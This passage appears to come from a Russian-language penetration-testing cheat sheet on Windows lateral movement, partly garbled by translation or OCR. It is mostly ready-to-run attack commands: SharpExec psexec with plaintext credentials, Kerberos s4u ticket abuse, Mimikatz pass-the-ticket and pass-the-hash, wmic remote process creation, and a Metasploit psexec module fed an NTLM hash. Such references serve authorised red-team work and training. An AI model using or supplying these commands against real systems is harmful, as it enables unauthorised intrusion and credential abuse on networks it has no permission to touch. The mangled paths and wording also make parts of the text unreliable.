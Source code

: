 ```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```
\ s4u.exe /tgt:termadmin.kirbi /user:administrator@lethallab.local /service:cifs/ops-sqlsrvone.lethallab.local


- используйте TGS:
Invoke-Mimikatz -команда '"kerberos: Ptt cifs.ops-sqlsrvone.lethallab.local.kirbi"'

ls \\ ops-sqlsrvone.lethallab.local \ C $

- напомним, что делегирование не ограничено SPN, возможно создавать альтернативные билеты.

```
#### 9 способов выполнения удаленных команд

Удаленное выполнение команд и соответствующие порты:
   IPC $ + AT 445
   
   PSEXEC 445
   
   WMI 135
   
   Winrm 5985 (HTTP) и 5986 (HTTPS)

1. WMI выполнить командный режим, без эха:
```
wmic /node:192.168.1.158 /user:pt007 /password:admin123  process call create "cmd.exe /c ipconfig>d:\result.txt
```

2. Используйте Hash для входа в Windows напрямую (проход HASH)
Возьмите хеш Windows и получите хеш администратора:
598DDCE2660D3193AAD3B435B51404EE: 2D20D252A479F485CDF5E171D93985BF
```
MSF вызывает полезную нагрузку:
use exploit/windows/smb/psexec 
show options
set RHOST 192.168.81.129
set SMBPass 598DDCE2660D3193AAD3B435B51404EE: 2D20D252A479F485CDF5E171D93985BF
set SMBUser Administrator
```


3. mimikatz передает хэш-соединение + при выполнении команды на выполнение запланированной задачи:
```
  mimikatz.exe privilege::debug "sekurlsa::pth /domain:./user:administrator /ntlm:2D20D252A479F485CDF5E171D93985BF"
  dir \\192.168.1.185\c$
```

4. [WMIcmd ](https://github.com/nccgroup/WMIcmd)

```
  WMIcmd.exe -h 192.168.1.152 -d hostname -u pt007 -p admin123 -c "ipconfig"
```

5. Cobalt strkie удаленного выполнения команд и атаки доставки хэшей
